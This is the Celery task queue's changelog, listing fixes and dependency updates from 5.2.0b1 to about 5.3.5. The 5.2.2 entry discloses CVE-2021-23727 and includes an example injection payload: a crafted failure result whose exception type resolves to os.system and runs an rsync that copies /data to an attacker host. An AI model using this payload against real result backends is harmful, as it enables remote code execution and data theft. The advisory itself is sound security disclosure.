:release-date: 2023-11-10  7:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Update test.txt versions (#8481)
- fix os.getcwd() FileNotFoundError (#8448)
- Fix typo in CONTRIBUTING.rst (#8494)
- typo(doc): configuration.rst (#8484)
- assert before raise (#8495)
- Update GHA checkout version (#8496)
- Fixed replaced_task_nesting (#8500)
- Fix code indentation for route_task() example (#8502)
- support redis 5.x (#8504)
- Fix typos in test_canvas.py (#8498)
- Marked flaky tests (#8508)
- Fix typos in calling.rst (#8506)
- Added support for replaced_task_nesting in chains (#8501)
- Fix typos in canvas.rst (#8509)
- Patch Version Release Checklist (#8488)
- Added Python 3.11 support to Dockerfile (#8511)
- Dependabot (Celery) (#8510)
- Bump actions/checkout from 3 to 4 (#8512)
- Update ETA example to include timezone (#8516)
- Replaces datetime.fromisoformat with the more lenient dateutil parser (#8507)
- Fixed indentation in Dockerfile for Python 3.11 (#8527)
- Fix git bug in Dockerfile (#8528)
- Tox lint upgrade from Python 3.9 to Python 3.11 (#8526)
- Document gevent concurrency (#8520)
- Update test.txt (#8530)
- Celery Docker Upgrades (#8531)
- pyupgrade upgrade v3.11.0 -> v3.13.0 (#8535)
- Update msgpack.txt (#8548)
- Update auth.txt (#8547)
- Update msgpack.txt to fix build issues (#8552)
- Basic ElasticSearch / ElasticClient 8.x Support (#8519)
- Fix eager tasks does not populate name field (#8486)
- Fix typo in celery.app.control (#8563)
- Update solar.txt ephem (#8566)
- Update test.txt pytest-timeout (#8565)
- Correct some mypy errors (#8570)
- Update elasticsearch.txt (#8573)
- Update test.txt deps (#8574)
- Update test.txt (#8590)
- Improved the "Next steps" documentation (#8561). (#8600)
- Disabled couchbase tests due to broken package breaking main (#8602)
- Update elasticsearch deps (#8605)
- Update cryptography==41.0.5 (#8604)
- Update pytest==7.4.3 (#8606)
- test initial support of python 3.12.x (#8549)
- updated new versions to fix CI (#8607)
- Update zstd.txt (#8609)
- Fixed CI Support with Python 3.12 (#8611)
- updated CI, docs and classifier for next release (#8613)
- updated dockerfile to add python 3.12 (#8614)
- lint,mypy,docker-unit-tests -> Python 3.12 (#8617)
- Correct type of `request` in `task_revoked` documentation (#8616)
- update docs docker image (#8618)
- Fixed RecursionError caused by giving `config_from_object` nested mod… (#8619)
- Fix: serialization error when gossip working (#6566)
- [documentation] broker_connection_max_retries of 0 does not mean "retry forever" (#8626)
- added 2 debian package for better stability in Docker (#8629)

.. _version-5.3.4:

5.3.4
=====

:release-date: 2023-09-03 10:10 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has reverted the breaking changes introduced in 5.3.2 and 5.3.3:

   - Revert "store children with database backend" (#8475)
   - Revert "Fix eager tasks does not populate name field" (#8476)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- add documents for timeout settings (#8373)
- fix: copyright year (#8380)
- setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- fix(canvas): add group index when unrolling tasks (#8427)
- fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)
- Document need for CELERY_ prefix on CLI env vars (#8469)
- Use string value for CELERY_SKIP_CHECKS envvar (#8462)
- Revert "store children with database backend" (#8475)
- Revert "Fix eager tasks does not populate name field" (#8476)
- Update Changelog (#8474)
- Remove as it seems to be buggy. (#8340)
- Revert "Add Semgrep to CI" (#8477)
- Revert "Revert "Add Semgrep to CI"" (#8478)

.. _version-5.3.3:

5.3.3 (Yanked)
==============

:release-date: 2023-08-31 1:47 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Fixed changelog for 5.3.2 release docs.

.. _version-5.3.2:

5.3.2 (Yanked)
==============

:release-date: 2023-08-31 1:30 P.M GMT+2
:release-by: Tomer Nosrati

.. warning::
   This version has been yanked due to breaking API changes. The breaking changes include:

   - Store children with database backend (#8338)
   - Fix eager tasks does not populate name field (#8383)

- Bugfix: Removed unecessary stamping code from _chord.run() (#8339)
- User guide fix (hotfix for #1755) (#8342)
- Store children with database backend (#8338)
- Stamping bugfix with group/chord header errback linking (#8347)
- Use argsrepr and kwargsrepr in LOG_RECEIVED (#8301)
- Fixing minor typo in code example in calling.rst (#8366)
- Add documents for timeout settings (#8373)
- Fix: copyright year (#8380)
- Setup.py: enable include_package_data (#8379)
- Fix eager tasks does not populate name field (#8383)
- Update test.txt dependencies (#8389)
- Update auth.txt deps (#8392)
- Fix backend.get_task_meta ignores the result_extended config parameter in mongodb backend (#8391)
- Support preload options for shell and purge commands (#8374)
- Implement safer ArangoDB queries (#8351)
- Integration test: cleanup worker after test case (#8361)
- Added "Tomer Nosrati" to CONTRIBUTORS.txt (#8400)
- Update README.rst (#8404)
- Update README.rst (#8408)
- Fix(canvas): add group index when unrolling tasks (#8427)
- Fix(beat): debug statement should only log AsyncResult.id if it exists (#8428)
- Lint fixes & pre-commit autoupdate (#8414)
- Update auth.txt (#8435)
- Update mypy on test.txt (#8438)
- Added missing kwargs arguments in some cli cmd (#8049)
- Fix #8431: Set format_date to False when calling _get_result_meta on mongo backend (#8432)
- Docs: rewrite out-of-date code (#8441)
- Limit redis client to 4.x since 5.x fails the test suite (#8442)
- Limit tox to < 4.9 (#8443)
- Fixed issue: Flags broker_connection_retry_on_startup & broker_connection_retry aren’t reliable (#8446)
- Doc update from #7651 (#8451)
- Remove tox version limit (#8464)
- Fixed AttributeError: 'str' object has no attribute (#8463)
- Upgraded Kombu from 5.3.1 -> 5.3.2 (#8468)

.. _version-5.3.1:

5.3.1
=====

:release-date: 2023-06-18  8:15 P.M GMT+6
:release-by: Asif Saif Uddin

- Upgrade to latest pycurl release (#7069).
- Limit librabbitmq>=2.0.0; python_version < '3.11' (#8302).
- Added initial support for python 3.11 (#8304).
- ChainMap observers fix (#8305).
- Revert optimization CLI flag behaviour back to original.
- Restrict redis 4.5.5 as it has severe bugs (#8317).
- Tested pypy 3.10 version in CI (#8320).
- Bump new version of kombu to 5.3.1 (#8323).
- Fixed a small float value of retry_backoff (#8295).
- Limit pyro4 up to python 3.10 only as it is (#8324).

.. _version-5.3.0:

5.3.0
=====

:release-date: 2023-06-06 12:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Test kombu 5.3.0 & minor doc update (#8294).
- Update librabbitmq.txt > 2.0.0 (#8292).
- Upgrade syntax to py3.8 (#8281).

.. _version-5.3.0rc2:

5.3.0rc2
========

:release-date: 2023-05-31 9:00 P.M GMT+6
:release-by: Asif Saif Uddin

- Add missing dependency.
- Fix exc_type being the exception instance rather.
- Fixed revoking tasks by stamped headers (#8269).
- Support sqlalchemy 2.0 in tests (#8271).
- Fix docker (#8275).
- Update redis.txt to 4.5 (#8278).
- Update kombu>=5.3.0rc2.


.. _version-5.3.0rc1:

5.3.0rc1
========

:release-date: 2023-05-11 4:24 P.M GMT+2
:release-by: Tomer Nosrati

- fix functiom name by @cuishuang in #8087
- Update CELERY_TASK_EAGER setting in user guide by @thebalaa in #8085
- Stamping documentation fixes & cleanups by @Nusnus in #8092
- switch to maintained pyro5 by @auvipy in #8093
- udate dependencies of tests by @auvipy in #8095
- cryptography==39.0.1 by @auvipy in #8096
- Annotate celery/security/certificate.py by @Kludex in #7398
- Deprecate parse_iso8601 in favor of fromisoformat by @stumpylog in #8098
- pytest==7.2.2 by @auvipy in #8106
- Type annotations for celery/utils/text.py by @max-muoto in #8107
- Update web framework URLs by @sblondon in #8112
- Fix contribution URL by @sblondon in #8111
- Trying to clarify CERT_REQUIRED by @pamelafox in #8113
- Fix potential AttributeError on 'stamps' by @Darkheir in #8115
- Type annotations for celery/apps/beat.py by @max-muoto in #8108
- Fixed bug where retrying a task loses its stamps by @Nusnus in #8120
- Type hints for celery/schedules.py by @max-muoto in #8114
- Reference Gopher Celery in README by @marselester in #8131
- Update sqlalchemy.txt by @auvipy in #8136
- azure-storage-blob 12.15.0 by @auvipy in #8137
- test kombu 5.3.0b3 by @auvipy in #8138
- fix: add expire string parse. by @Bidaya0 in #8134
- Fix worker crash on un-pickleable exceptions by @youtux in #8133
- CLI help output: avoid text rewrapping by click by @woutdenolf in #8152
- Warn when an unnamed periodic task override another one. by @iurisilvio in #8143
- Fix Task.handle_ignore not wrapping exceptions properly by @youtux in #8149
- Hotfix for (#8120) - Stamping bug with retry by @Nusnus in #8158
- Fix integration test by @youtux in #8156
- Fixed bug in revoke_by_stamped_headers where impl did not match doc by @Nusnus in #8162
- Align revoke and revoke_by_stamped_headers return values (terminate=True) by @Nusnus in #8163
- Update & simplify GHA pip caching by @stumpylog in #8164
- Update auth.txt by @auvipy in #8167
- Update test.txt versions by @auvipy in #8173
- remove extra = from test.txt by @auvipy in #8179
- Update sqs.txt kombu[sqs]>=5.3.0b3 by @auvipy in #8174
- Added signal triggered before fork by @jaroslawporada in #8177
- Update documentation on SQLAlchemy by @max-muoto in #8188
- Deprecate pytz and use zoneinfo by @max-muoto in #8159
- Update dev.txt by @auvipy in #8192
- Update test.txt by @auvipy in #8193
- Update test-integration.txt by @auvipy in #8194
- Update zstd.txt by @auvipy in #8195
- Update s3.txt by @auvipy in #8196
- Update msgpack.txt by @auvipy in #8199
- Update solar.txt by @auvipy in #8198
- Add Semgrep to CI by @Nusnus in #8201
- Added semgrep to README.rst by @Nusnus in #8202
- Update django.txt by @auvipy in #8197
- Update redis.txt 4.3.6 by @auvipy in #8161
- start removing codecov from pypi by @auvipy in #8206
- Update test.txt dependencies by @auvipy in #8205
- Improved doc for: worker_deduplicate_successful_tasks by @Nusnus in #8209
- Renamed revoked_headers to revoked_stamps by @Nusnus in #8210
- Ensure argument for map is JSON serializable by @candleindark in #8229

.. _version-5.3.0b2:

5.3.0b2
=======

:release-date: 2023-02-19 1:47 P.M GMT+2
:release-by: Asif Saif Uddin

- BLM-2: Adding unit tests to chord clone by @Nusnus in #7668
- Fix unknown task error typo by @dcecile in #7675
- rename redis integration test class so that tests are executed by @wochinge in #7684
- Check certificate/private key type when loading them by @qrmt in #7680
- Added integration test_chord_header_id_duplicated_on_rabbitmq_msg_duplication() by @Nusnus in #7692
- New feature flag: allow_error_cb_on_chord_header - allowing setting an error callback on chord header by @Nusnus in #7712
- Update README.rst sorting Python/Celery versions by @andrebr in #7714
- Fixed a bug where stamping a chord body would not use the correct stamping method by @Nusnus in #7722
- Fixed doc duplication typo for Signature.stamp() by @Nusnus in #7725
- Fix issue 7726: variable used in finally block may not be instantiated by @woutdenolf in #7727
- Fixed bug in chord stamping with another chord as a body + unit test by @Nusnus in #7730
- Use "describe_table" not "create_table" to check for existence of DynamoDB table by @maxfirman in #7734
- Enhancements for task_allow_error_cb_on_chord_header tests and docs by @Nusnus in #7744
- Improved custom stamping visitor documentation by @Nusnus in #7745
- Improved the coverage of test_chord_stamping_body_chord() by @Nusnus in #7748
- billiard >= 3.6.3.0,<5.0 for rpm by @auvipy in #7764
- Fixed memory leak with ETA tasks at connection error when worker_cancel_long_running_tasks_on_connection_loss is enabled by @Nusnus in #7771
- Fixed bug where a chord with header of type tuple was not supported in the link_error flow for task_allow_error_cb_on_chord_header flag by @Nusnus in #7772
- Scheduled weekly dependency update for week 38 by @pyup-bot in #7767
- recreate_module: set spec to the new module by @skshetry in #7773
- Override integration test config using integration-tests-config.json by @thedrow in #7778
- Fixed error handling bugs due to upgrade to a newer version of billiard by @Nusnus in #7781
- Do not recommend using easy_install anymore by @jugmac00 in #7789
- GitHub Workflows security hardening by @sashashura in #7768
- Update ambiguous acks_late doc by @Zhong-z in #7728
- billiard >=4.0.2,<5.0 by @auvipy in #7720
- importlib_metadata remove deprecated entry point interfaces by @woutdenolf in #7785
- Scheduled weekly dependency update for week 41 by @pyup-bot in #7798
- pyzmq>=22.3.0 by @auvipy in #7497
- Remove amqp from the BACKEND_ALISES list by @Kludex in #7805
- Replace print by logger.debug by @Kludex in #7809
- Ignore coverage on except ImportError by @Kludex in #7812
- Add mongodb dependencies to test.txt by @Kludex in #7810
- Fix grammar typos on the whole project by @Kludex in #7815
- Remove isatty wrapper function by @Kludex in #7814
- Remove unused variable _range by @Kludex in #7813
- Add type annotation on concurrency/threads.py by @Kludex in #7808
- Fix linter workflow by @Kludex in #7816
- Scheduled weekly dependency update for week 42 by @pyup-bot in #7821
- Remove .cookiecutterrc by @Kludex in #7830
- Remove .coveragerc file by @Kludex in #7826
- kombu>=5.3.0b2 by @auvipy in #7834
- Fix readthedocs build failure by @woutdenolf in #7835
- Fixed bug in group, chord, chain stamp() method, where the visitor overrides the previously stamps in tasks of these objects by @Nusnus in #7825
- Stabilized test_mutable_errback_called_by_chord_from_group_fail_multiple by @Nusnus in #7837
- Use SPDX license expression in project metadata by @RazerM in #7845
- New control command revoke_by_stamped_headers by @Nusnus in #7838
- Clarify wording in Redis priority docs by @strugee in #7853
- Fix non working example of using celery_worker pytest fixture by @paradox-lab in #7857
- Removed the mandatory requirement to include stamped_headers key when implementing on_signature() by @Nusnus in #7856
- Update serializer docs by @sondrelg in #7858
- Remove reference to old Python version by @Kludex in #7829
- Added on_replace() to Task to allow manipulating the replaced sig with custom changes at the end of the task.replace() by @Nusnus in #7860
- Add clarifying information to completed_count documentation by @hankehly in #7873
- Stabilized test_revoked_by_headers_complex_canvas by @Nusnus in #7877
- StampingVisitor will visit the callbacks and errbacks of the signature by @Nusnus in #7867
- Fix "rm: no operand" error in clean-pyc script by @hankehly in #7878
- Add --skip-checks flag to bypass django core checks by @mudetz in #7859
- Scheduled weekly dependency update for week 44 by @pyup-bot in #7868
- Added two new unit tests to callback stamping by @Nusnus in #7882
- Sphinx extension: use inspect.signature to make it Python 3.11 compatible by @mathiasertl in #7879
- cryptography==38.0.3 by @auvipy in #7886
- Canvas.py doc enhancement by @Nusnus in #7889
- Fix typo by @sondrelg in #7890
- fix typos in optional tests by @hsk17 in #7876
- Canvas.py doc enhancement by @Nusnus in #7891
- Fix revoke by headers tests stability by @Nusnus in #7892
- feat: add global keyprefix for backend result keys by @kaustavb12 in #7620
- Canvas.py doc enhancement by @Nusnus in #7897
- fix(sec): upgrade sqlalchemy to 1.2.18 by @chncaption in #7899
- Canvas.py doc enhancement by @Nusnus in #7902
- Fix test warnings by @ShaheedHaque in #7906
- Support for out-of-tree worker pool implementations by @ShaheedHaque in #7880
- Canvas.py doc enhancement by @Nusnus in #7907
- Use bound task in base task example. Closes #7909 by @WilliamDEdwards in #7910
- Allow the stamping visitor itself to set the stamp value type instead of casting it to a list by @Nusnus in #7914
- Stamping a task left the task properties dirty by @Nusnus in #7916
- Fixed bug when chaining a chord with a group by @Nusnus in #7919
- Fixed bug in the stamping visitor mechanism where the request was lacking the stamps in the 'stamps' property by @Nusnus in #7928
- Fixed bug in task_accepted() where the request was not added to the requests but only to the active_requests by @Nusnus in #7929
- Fix bug in TraceInfo._log_error() where the real exception obj was hiding behind 'ExceptionWithTraceback' by @Nusnus in #7930
- Added integration test: test_all_tasks_of_canvas_are_stamped() by @Nusnus in #7931
- Added new example for the stamping mechanism: examples/stamping by @Nusnus in #7933
- Fixed a bug where replacing a stamped task and stamping it again by @Nusnus in #7934
- Bugfix for nested group stamping on task replace by @Nusnus in #7935
- Added integration test test_stamping_example_canvas() by @Nusnus in #7937
- Fixed a bug in losing chain links when unchaining an inner chain with links by @Nusnus in #7938
- Removing as not mandatory by @auvipy in #7885
- Housekeeping for Canvas.py by @Nusnus in #7942
- Scheduled weekly dependency update for week 50 by @pyup-bot in #7954
- try pypy 3.9 in CI by @auvipy in #7956
- sqlalchemy==1.4.45 by @auvipy in #7943
- billiard>=4.1.0,<5.0 by @auvipy in #7957
- feat(typecheck): allow changing type check behavior on the app level; by @moaddib666 in #7952
- Add broker_channel_error_retry option by @nkns165 in #7951
- Add beat_cron_starting_deadline_seconds to prevent unwanted cron runs by @abs25 in #7945
- Scheduled weekly dependency update for week 51 by @pyup-bot in #7965
- Added doc to "retry_errors" newly supported field of "publish_retry_policy" of the task namespace by @Nusnus in #7967
- Renamed from master to main in the docs and the CI workflows by @Nusnus in #7968
- Fix docs for the exchange to use with worker_direct by @alessio-b2c2 in #7973
- Pin redis==4.3.4 by @auvipy in #7974
- return list of nodes to make sphinx extension compatible with Sphinx 6.0 by @mathiasertl in #7978
- use version range redis>=4.2.2,<4.4.0 by @auvipy in #7980
- Scheduled weekly dependency update for week 01 by @pyup-bot in #7987
- Add annotations to minimise differences with celery-aio-pool's tracer.py. by @ShaheedHaque in #7925
- Fixed bug where linking a stamped task did not add the stamp to the link's options by @Nusnus in #7992
- sqlalchemy==1.4.46 by @auvipy in #7995
- pytz by @auvipy in #8002
- Fix few typos, provide configuration + workflow for codespell to catch any new by @yarikoptic in #8023
- RabbitMQ links update by @arnisjuraga in #8031
- Ignore files generated by tests by @Kludex in #7846
- Revert "sqlalchemy==1.4.46 (#7995)" by @Nusnus in #8033
- Fixed bug with replacing a stamped task with a chain or a group (inc. links/errlinks) by @Nusnus in #8034
- Fixed formatting in setup.cfg that caused flake8 to misbehave by @Nusnus in #8044
- Removed duplicated import Iterable by @Nusnus in #8046
- Fix docs by @Nusnus in #8047
- Document --logfile default by @strugee in #8057
- Stamping Mechanism Refactoring by @Nusnus in #8045
- result_backend_thread_safe config shares backend across threads by @CharlieTruong in #8058
- Fix cronjob that use day of month and negative UTC timezone by @pkyosx in #8053
- Stamping Mechanism Examples Refactoring by @Nusnus in #8060
- Fixed bug in Task.on_stamp_replaced() by @Nusnus in #8061
- Stamping Mechanism Refactoring 2 by @Nusnus in #8064
- Changed default append_stamps from True to False (meaning duplicates … by @Nusnus in #8068
- typo in comment: mailicious => malicious by @yanick in #8072
- Fix command for starting flower with specified broker URL by @ShukantPal in #8071
- Improve documentation on ETA/countdown tasks (#8069) by @norbertcyran in #8075

.. _version-5.3.0b1:

5.3.0b1
=======

:release-date: 2022-08-01 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Canvas Header Stamping (#7384).
- async chords should pass it's kwargs to the group/body.
- beat: Suppress banner output with the quiet option (#7608).
- Fix honor Django's TIME_ZONE setting.
- Don't warn about DEBUG=True for Django.
- Fixed the on_after_finalize cannot access tasks due to deadlock.
- Bump kombu>=5.3.0b1,<6.0.
- Make default worker state limits configurable (#7609).
- Only clear the cache if there are no active writers.
- Billiard 4.0.1

.. _version-5.3.0a1:

5.3.0a1
=======

:release-date: 2022-06-29 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Remove Python 3.4 compatibility code.
- call ping to set connection attr for avoiding redis parse_response error.
- Use importlib instead of deprecated pkg_resources.
- fix #7245 uid duplicated in command params.
- Fix subscribed_to maybe empty (#7232).
- Fix: Celery beat sleeps 300 seconds sometimes even when it should run a task within a few seconds (e.g. 13 seconds) #7290.
- Add security_key_password option (#7292).
- Limit elasticsearch support to below version 8.0.
- try new major release of pytest 7 (#7330).
- broker_connection_retry should no longer apply on startup (#7300).
- Remove __ne__ methods (#7257).
- fix #7200 uid and gid.
- Remove exception-throwing from the signal handler.
- Add mypy to the pipeline (#7383).
- Expose more debugging information when receiving unknown tasks. (#7405)
- Avoid importing buf_t from billiard's compat module as it was removed.
- Avoid negating a constant in a loop. (#7443)
- Ensure expiration is of float type when migrating tasks (#7385).
- load_extension_class_names - correct module_name (#7406)
- Bump pymongo[srv]>=4.0.2.
- Use inspect.getgeneratorstate in asynpool.gen_not_started (#7476).
- Fix test with missing .get() (#7479).
- azure-storage-blob>=12.11.0
- Make start_worker, setup_default_app reusable outside of pytest.
- Ensure a proper error message is raised when id for key is empty (#7447).
- Crontab string representation does not match UNIX crontab expression.
- Worker should exit with ctx.exit to get the right exitcode for non-zero.
- Fix expiration check (#7552).
- Use callable built-in.
- Include dont_autoretry_for option in tasks. (#7556)
- fix: Syntax error in arango query.
- Fix custom headers propagation on task retries (#7555).
- Silence backend warning when eager results are stored.
- Reduce prefetch count on restart and gradually restore it (#7350).
- Improve workflow primitive subclassing (#7593).
- test kombu>=5.3.0a1,<6.0 (#7598).
- Canvas Header Stamping (#7384).

.. _version-5.2.7:

5.2.7
=====

:release-date: 2022-5-26 12:15 P.M UTC+2:00
:release-by: Omer Katz

- Fix packaging issue which causes poetry 1.2b1 and above to fail install Celery (#7534).

.. _version-5.2.6:

5.2.6
=====

:release-date: 2022-4-04 21:15 P.M UTC+2:00
:release-by: Omer Katz

- load_extension_class_names - correct module_name (#7433).
    This fixes a regression caused by #7218.

.. _version-5.2.5:

5.2.5
=====

:release-date: 2022-4-03 20:42 P.M UTC+2:00
:release-by: Omer Katz

**This release was yanked due to a regression caused by the PR below**

- Use importlib instead of deprecated pkg_resources (#7218).

.. _version-5.2.4:

5.2.4
=====

:release-date: 2022-4-03 20:30 P.M UTC+2:00
:release-by: Omer Katz

- Expose more debugging information when receiving unknown tasks (#7404).

.. _version-5.2.3:

5.2.3
=====

:release-date: 2021-12-29 12:00 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Allow redis >= 4.0.2.
- Upgrade minimum required pymongo version to 3.11.1.
- tested pypy3.8 beta (#6998).
- Split Signature.__or__ into subclasses' __or__ (#7135).
- Prevent duplication in event loop on Consumer restart.
- Restrict setuptools>=59.1.1,<59.7.0.
- Kombu bumped to v5.2.3
- py-amqp bumped to v5.0.9
- Some docs & CI improvements.


.. _version-5.2.2:

5.2.2
=====

:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz

- Various documentation fixes.
- Fix CVE-2021-23727 (Stored Command Injection security vulnerability).

    When a task fails, the failure information is serialized in the backend.
    In some cases, the exception class is only importable from the
    consumer's code base. In this case, we reconstruct the exception class
    so that we can re-raise the error on the process which queried the
    task's result. This was introduced in #4836.
    If the recreated exception type isn't an exception, this is a security issue.
    Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
    ``os.system("rsync /data attacker@192.168.56.100:~/data")``
    by setting the task's result to a failure in the result backend with the os,
    the system function as the exception type and the payload ``rsync /data attacker@192.168.56.100:~/data`` as the exception arguments like so:

    .. code-block:: python

        {
              "exc_module": "os",
              'exc_type': "system",
              "exc_message": "rsync /data attacker@192.168.56.100:~/data"
        }

    According to my analysis, this vulnerability can only be exploited if
    the producer delayed a task which runs long enough for the
    attacker to change the result mid-flight, and the producer has
    polled for the task's result.
    The attacker would also have to gain access to the result backend.
    The severity of this security vulnerability is low, but we still
    recommend upgrading.


.. _version-5.2.1:

5.2.1
=====

:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Fix rstrip usage on bytes instance in ProxyLogger.
- Pass logfile to ExecStop in celery.service example systemd file.
- fix: reduce latency of AsyncResult.get under gevent (#7052)
- Limit redis version: <4.0.0.
- Bump min kombu version to 5.2.2.
- Change pytz>dev to a PEP 440 compliant pytz>0.dev.0.
- Remove dependency to case (#7077).
- fix: task expiration is timezone aware if needed (#7065).
- Initial testing of pypy-3.8 beta to CI.
- Docs, CI & tests cleanups.


.. _version-5.2.0:

5.2.0
=====

:release-date: 2021-11-08 7.15 A.M UTC+6:00
:release-by: Asif Saif Uddin

- Prevent from subscribing to empty channels (#7040)
- fix register_task method.
- Fire task failure signal on final reject (#6980)
- Limit pymongo version: <3.12.1 (#7041)
- Bump min kombu version to 5.2.1

.. _version-5.2.0rc2:

5.2.0rc2
========

:release-date: 2021-11-02 1.54 P.M UTC+3:00
:release-by: Naomi Elstein

- Bump Python 3.10.0 to rc2.
- [pre-commit.ci] pre-commit autoupdate (#6972).
- autopep8.
- Prevent worker to send expired revoked items upon hello command (#6975).
- docs: clarify the 'keeping results' section (#6979).
- Update deprecated task module removal in 5.0 documentation (#6981).
- [pre-commit.ci] pre-commit autoupdate.
- try python 3.10 GA.
- mention python 3.10 on readme.
- Documenting the default consumer_timeout value for rabbitmq >= 3.8.15.
- Azure blockblob backend parametrized connection/read timeouts (#6978).
- Add as_uri method to azure block blob backend.
- Add possibility to override backend implementation with celeryconfig (#6879).
- [pre-commit.ci] pre-commit autoupdate.
- try to fix deprecation warning.
- [pre-commit.ci] pre-commit autoupdate.
- not needed anyore.
- not needed anyore.
- not used anymore.
- add github discussions forum

.. _version-5.2.0rc1:

5.2.0rc1
========
:release-date: 2021-09-26 4.04 P.M UTC+3:00
:release-by: Omer Katz

- Kill all workers when main process exits in prefork model (#6942).
- test kombu 5.2.0rc1 (#6947).
- try moto 2.2.x (#6948).
- Prepared Hacker News Post on Release Action.
- update setup with python 3.7 as minimum.
- update kombu on setupcfg.
- Added note about automatic killing all child processes of worker after its termination.
- [pre-commit.ci] pre-commit autoupdate.
- Move importskip before greenlet import (#6956).
- amqp: send expiration field to broker if requested by user (#6957).
- Single line drift warning.
- canvas: fix kwargs argument to prevent recursion (#6810) (#6959).
- Allow to enable Events with app.conf mechanism.
- Warn when expiration date is in the past.
- Add the Framework :: Celery trove classifier.
- Give indication whether the task is replacing another (#6916).
- Make setup.py executable.
- Bump version: 5.2.0b3 → 5.2.0rc1.

.. _version-5.2.0b3:

5.2.0b3
=======

:release-date: 2021-09-02 8.38 P.M UTC+3:00
:release-by: Omer Katz

- Add args to LOG_RECEIVED (fixes #6885) (#6898).
- Terminate job implementation for eventlet concurrency backend (#6917).
- Add cleanup implementation to filesystem backend (#6919).
- [pre-commit.ci] pre-commit autoupdate (#69).
- Add before_start hook (fixes #4110) (#6923).
- Restart consumer if connection drops (#6930).
- Remove outdated optimization documentation (#6933).
- added https verification check functionality in arangodb backend (#6800).
- Drop Python 3.6 support.
- update supported python versions on readme.
- [pre-commit.ci] pre-commit autoupdate (#6935).
- Remove appveyor configuration since we migrated to GA.
- pyugrade is now set to upgrade code to 3.7.
- Drop exclude statement since we no longer test with pypy-3.6.
- 3.10 is not GA so it's not supported yet.
- Celery 5.1 or earlier support Python 3.6.
- Fix linting error.
- fix: Pass a Context when chaining fail results (#6899).
- Bump version: 5.2.0b2 → 5.2.0b3.

.. _version-5.2.0b2:

5.2.0b2
=======

:release-date: 2021-08-17 5.35 P.M UTC+3:00
:release-by: Omer Katz

- Test windows on py3.10rc1 and pypy3.7 (#6868).
- Route chord_unlock task to the same queue as chord body (#6896).
- Add message properties to app.tasks.Context (#6818).
- handle already converted LogLevel and JSON (#6915).
- 5.2 is codenamed dawn-chorus.
- Bump version: 5.2.0b1 → 5.2.0b2.

.. _version-5.2.0b1:

5.2.0b1
=======

:release-date: 2021-08-11 5.42 P.M UTC+3:00
:release-by: Omer Katz

- Add Python 3.10 support (#6807).
- Fix docstring for Signal.send to match code (#6835).
- No blank line in log output (#6838).
- Chords get body_type independently to handle cases where body.type does not exist (#6847).
- Fix #6844 by allowing safe queries via app.inspect().active() (#6849).
- Fix multithreaded backend usage (#6851).
- Fix Open Collective donate button (#6848).
- Fix setting worker concurrency option after signal (#6853).
- Make ResultSet.on_ready promise hold a weakref to self (#6784).
- Update configuration.rst.
- Discard jobs on flush if synack isn't enabled (#6863).
- Bump click version to 8.0 (#6861).
- Amend IRC network link to Libera (#6837).
- Import celery lazily in pytest plugin and unignore flake8 F821, "undefined name '...'" (#6872).
- Fix inspect --json output to return valid json without --quiet.
- Remove celery.task references in modules, docs (#6869).
-  The Consul backend must correctly associate requests and responses (#6823).
